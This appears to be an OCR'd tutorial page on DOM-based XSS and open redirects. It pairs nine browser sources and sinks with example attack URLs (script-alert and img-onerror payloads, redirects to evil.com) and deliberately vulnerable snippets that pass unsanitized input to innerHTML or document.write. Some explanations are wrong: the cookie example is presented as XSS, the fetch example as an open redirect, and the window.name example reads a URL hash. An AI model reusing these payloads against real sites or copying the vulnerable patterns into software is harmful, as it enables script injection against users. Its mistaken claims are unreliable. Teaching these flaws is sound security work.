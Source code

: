### 1. **`document.URL` and `document.documentURI`**
Both return the URL of the current document. If inserted into a page without sanitization, they can be exploited for XSS.

**Example Payload URL:**
```bash
https://victim.com/page?url=<script>alert('XSS')</script>
```

**Code:**
```html
<p id="demo"></p>
<script>
    var url = document.URL;
    document.getElementById("demo").innerHTML = "Current URL: " + url;
</script>
```
If the URL parameter is displayed directly on the page, the script can execute without sanitization.

---

### 2. **`document.baseURI`**
This property returns the base URL of the document. It can lead to open redirects if used without validation.

**Example Open Redirect:**
```bash
https://victim.com/?redirect=https://evil.com
```

**Code:**
```html
<script>
    var redirectURL = document.baseURI + new URLSearchParams(window.location.search).get('redirect');
    window.location.href = redirectURL;
</script>
```
If `redirect` is processed without validation, users can be sent to a malicious site.

---

### 3. **`location` and `window.location`**
These refer to the current URL and are often used for XSS or open redirect if the URL data is used without validation.

**Example XSS Payload URL:**
```bash
https://victim.com/?name=<script>alert('XSS')</script>
```

**Code:**
```html
<p id="name"></p>
<script>
    var params = new URLSearchParams(window.location.search);
    var name = params.get('name');
    document.getElementById("name").innerHTML = "Hello " + name;
</script>
```
If the `name` parameter value is not sanitized, XSS can occur.

---

### 4. **`window.location.search`** (Accessing Query Parameters)
This returns the query string part of the URL. It can be dangerous if used to inject data into the DOM without sanitization.

**Example:**
```bash
https://victim.com/search?query=<img src=x onerror=alert(1)>
```

**Code:**
```html
<p id="searchResult"></p>
<script>
    var searchQuery = window.location.search;
    document.getElementById("searchResult").innerHTML = "Search result for: " + searchQuery;
</script>
```

---

### 5. **`fetch()` and `XMLHttpRequest`**
Both are used to retrieve data from a server. If the URL is taken from user parameters, this can lead to open redirects or SSRF.

**Example Open Redirect:**
```bash
https://victim.com/fetch?url=https://evil.com
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var targetURL = params.get('url');
    fetch(targetURL)
        .then(response => response.text())
        .then(data => console.log(data));
</script>
```
If `fetch` is used with a user-provided URL without validation, it can result in an open redirect.

---

### 6. **`document.cookie`**
Used to get or set cookies. XSS can occur if a cookie is set with user input without sanitization.

**Example:**
```bash
https://victim.com/?cookie=<script>alert(document.cookie)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var cookieValue = params.get('cookie');
    document.cookie = "user=" + cookieValue;
</script>
```
If the cookie value is set without sanitization, XSS can occur.

---

### 7. **`window.name`**
`window.name` can store data that is accessible across pages. It can be used for XSS if this value is inserted into a page.

**Example Payload:**
```bash
https://victim.com#"><img src=x onerror=alert(1)>
```

**Code:**
```html
<script>
    var windowName = window.name;
    document.write("Window name is: " + windowName);
</script>
```

---

### 8. **`history.pushState()` and `history.replaceState()`**
Both are used to manipulate the URL without reloading the page. If data from the URL is inserted into the page without sanitization, XSS can occur.

**Example XSS:**
```bash
https://victim.com/?state="><script>alert(1)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var state = params.get('state');
    history.pushState({}, '', '?state=' + state);
    document.write("New URL is: " + window.location.href);
</script>
```

---

### 9. **`localStorage` and `sessionStorage`**
Data stored in `localStorage` or `sessionStorage` can be abused if accessed or set with unsafe input.

**Example XSS:**
```bash
https://victim.com/?payload="><script>alert(1)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var payload = params.get('payload');
    localStorage.setItem('data', payload);
    document.write("Stored payload is: " + localStorage.getItem('data'));
</script>
```

---
